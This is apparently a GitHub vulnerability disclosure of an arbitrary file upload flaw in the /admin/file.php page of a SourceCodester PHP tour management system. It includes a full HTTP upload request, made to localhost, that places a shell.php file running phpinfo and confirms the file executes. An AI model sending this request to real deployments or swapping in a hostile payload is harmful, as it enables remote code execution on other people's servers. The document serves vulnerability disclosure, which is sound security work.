 # Online Tours & Travels management system v1.0 by mayuri_k has arbitrary file upload

BUG_Author: lcg22266

vendors: https://www.sourcecodester.com/php/14510/online-tours-travels-management-system-project-using-php-and-mysql.html

Vulnerability url: ip/tour/admin/file.php

Loophole location: Online Tours & Travels management system's /admin/file.php file exists arbitrary file upload

![image](https://github.com/lcg-22266/bug_pic/blob/main/choose.png)

Request package for file upload:

```
POST /tour/admin/file.php HTTP/1.1
Host: localhost
Content-Length: 320
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryX5YWsfY9nqxrRgu9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/tour/admin/file.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close

------WebKitFormBoundaryX5YWsfY9nqxrRgu9
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryX5YWsfY9nqxrRgu9
Content-Disposition: form-data; name="submit"

Upload Image
------WebKitFormBoundaryX5YWsfY9nqxrRgu9--
```

The files will be uploaded to this directory tour\admin\upload

![image](https://github.com/lcg-22266/bug_pic/blob/main/upload2.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://github.com/lcg-22266/bug_pic/blob/main/shell2.png)


